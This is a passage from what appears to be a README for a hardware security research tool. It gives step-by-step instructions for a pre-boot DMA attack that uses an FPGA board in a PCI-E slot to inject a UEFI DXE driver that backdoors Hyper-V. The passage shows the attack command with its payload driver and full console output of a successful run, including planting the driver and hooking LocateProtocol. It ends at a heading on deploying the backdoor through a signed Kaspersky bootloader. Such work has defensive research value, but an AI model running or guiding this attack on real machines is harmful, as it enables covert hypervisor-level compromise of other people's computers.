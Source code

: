  1) Power off the target computer.

 2) Connect your FPGA board used for DMA attacks to the PCI-E (or Mini PCI-E, or M.2) port of the target computer.

 3) Turn the board on and ensure that its firmware was successfully initialized. 

 4) Run the following command to start pre-boot DMA attack: 

```
$ ./uefi_backdoor_hv.py --driver payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
```

 5) Power on the target computer, in case of successful attack after the couple of seconds you will see red debug messages screen of injected UEFI DXE driver.

An example of `uefi_backdoor_hv.py` console output after the successful attack:

```
$ ./uefi_backdoor_hv.py
[+] Using UEFI system table hook injection method
[+] Reading DXE phase payload from payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Looking for DXE driver PE image...
[+] PE image is at 0x77160000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x2c20
Backdoor entry RVA is 0xbd4
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0bd4
3.611646 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for Hyper-V load...
[+] Hyper-V image was loaded

    Hyper-V image base: 0xfffff8072d690000
           Image entry: 0xfffff8072d901360
       VM exit handler: 0xfffff8072d8add90

[+] DONE
```

You can use `--driver` option of `uefi_backdoor_hv.py` to specify an alternative DXE driver to inject, by default the program uses `payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi` driver.


## Deploying the backdoor using signed Kaspersky bootloader
